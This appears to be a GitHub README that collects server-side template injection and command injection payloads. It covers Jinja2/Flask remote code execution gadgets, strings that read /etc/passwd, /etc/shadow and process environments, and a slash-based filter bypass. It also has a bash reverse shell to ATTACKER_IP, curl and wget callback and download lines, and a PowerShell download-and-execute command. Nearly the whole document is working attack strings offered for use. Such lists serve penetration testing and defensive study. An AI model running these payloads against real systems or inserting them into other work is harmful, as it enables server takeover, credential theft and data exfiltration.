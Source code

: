 # SSTI-Command-Inection
A repo of payloads including // space sanitation bypass 


### **Expanded List of Server-Side Template Injection (SSTI) and Command Injection Payloads**

**1. Server-Side Template Injection (SSTI) Payloads**

These payloads are designed to test for and exploit vulnerabilities in backend template engines, allowing code execution within the template context. The examples heavily feature Python Jinja2/Flask due to its commonality and the previous context, but the principles apply broadly.

* **Basic Arithmetic & Evaluation (SSTI Confirmation):**
    * `{{7*7}}`
    * `{{1+1}}`
    * `{{'a'+'b'}}`
    * `{{2**10}}`
    * `<%- 7*7 %>` (Ruby ERB/Rails)
    * `${7*7}` (Various EL/Velocity)
    * `#set($x=7*7)$x` (Apache Velocity)
    * `{{ 7 / 0 }}` (Error-based detection)

* **Variable/Object Access & Introspection (Python Jinja2/Flask):**
    * `{{ config }}`
    * `{{ request }}`
    * `{{ self }}`
    * `{{ ''.__class__ }}`
    * `{{ ''.__class__.__mro__ }}`
    * `{{ ''.__class__.__mro__[1] }}`
    * `{{ ''.__class__.__mro__[1].__subclasses__() }}`
    * `{{ [].__class__.__base__ }}`
    * `{{ [].__class__.__base__.__subclasses__() }}`
    * `{% for x in config.items() %}{{ x }}{% endfor %}`
    * `{{ get_flashed_messages.__globals__['current_app'].config }}`

* **Remote Code Execution (RCE) via SSTI (Python Jinja2/Flask Gadgets):**
    * `{{ ''.__class__.__mro__[1].__subclasses__()[idx].__init__.__globals__['os'].popen('id').read() }}` (Replace `idx` with index of `warnings.catch_warnings` or similar)
    * `{{ [].__class__.__base__.__subclasses__()[idx].__init__.__globals__['os'].popen('id').read() }}` (Alternative base, replace `idx`)
    * `{{ cycler.__init__.__globals__.os.popen('id').read() }}` (If `cycler` is accessible)
    * `{{ lipsum.__globals__['os'].popen('id').read() }}` (If `lipsum` is accessible)
    * `{{ g.__class__.__base__.__subclasses__()[idx].__init__.__globals__['os'].popen('id').read() }}` (If `g` is accessible, replace `idx`)
    * `{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}`
    * `{{ url_for.__globals__['os'].popen('id').read() }}`
    * `{{ request.application.__globals__['os'].popen('ls -la').read() }}`
    * `{{ request.args.__class__.__mro__[1].__subclasses__()[idx].__init__.__globals__['os'].popen('id').read() }}` (If args is accessible, replace `idx`)
    * `{{ request.environ['werkzeug.server.shutdown'].__globals__['os'].popen('id').read() }}`
    * `{{ self._TemplateReference__context.joiner.__builtins__['__import__']('os').popen('id').read() }}`

**2. Command Injection Payloads**

These payloads aim to execute arbitrary system commands, typically by escaping user input within a shell command executed by the server.

* **Basic Command Execution (Linux/Unix):**
    * `; id`
    * `| whoami`
    * `&& ls -la`
    * `|| cat /etc/passwd`
    * `$(uname -a)`
    * `` `hostname` ``
    * `%0a cat /etc/shadow` (Newline character)

* **Space Bypass with `//` (Double Forward Slash):**
    * `{exec//ls-la}` (Originally used in template context, adaptable for direct shell injection if syntax allows)
    * `{system{ls//-F//slash}}` (Originally used in template context, adaptable)
    * `cat//etc//hosts`
    * `cat//proc//cpuinfo`
    * `cat//proc//self//environ`
    * `ip//a`
    * `netstat//-natp`
    * `ps//aux`
    * `df//-h`
    * `free//-m`
    * `w`
    * `history`
    * `env`
    * `{system{netstat//-natp}}`(network enumeration)
    * `/bin/bash//-i//>&//dev/tcp/ATTACKER_IP/ATTACKER_PORT//0>&1` (Reverse shell attempt, replace IP/PORT)
    * `{system{ping-c1//XXX-XXX-XXX-XXX}}@gmail.com` (OOB with space sanitation bypass in email entry fields.)

* **Out-of-Band (OOB) Interaction:**
    * `& ping -c 1 ATTACKER_IP` (Ping callback, replace IP)
    * `; nslookup ATTACKER_DOMAIN` (DNS callback, replace DOMAIN)
    * `| curl http://ATTACKER_IP/callback` (HTTP callback, replace IP)
    * `&& wget http://ATTACKER_IP/payload.sh -O /tmp/p.sh` (Download file, replace IP)

* **Other Variations and Obfuscation:**
    * `%3Bcat%2Fetc%2Fpasswd` (URL-encoded semicolon and slash)
    * `%7Cid` (URL-encoded pipe)
    * `$(echo Y2F0IC9ldGMvcGFzc3dkCg== | base64 -d)` (Base64 encoded command)
    * `%0aid%0a` (Multiple newlines)
    * `cat` ` /etc/passwd` (Space bypass via backticks if applicable)
    * `a%0a%23b%0acat%2fetc%2fpasswd` (Newline, comment, newline, payload)

* **Windows Specific (If target is Windows):**
    * `& dir c:`
    * `| ipconfig`
    * `&& type C:\Windows\System32\drivers\etc\hosts`
    * `%0a whoami`
    * `& powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKER_IP/shell.ps1')"` (PowerShell download/execute)

---
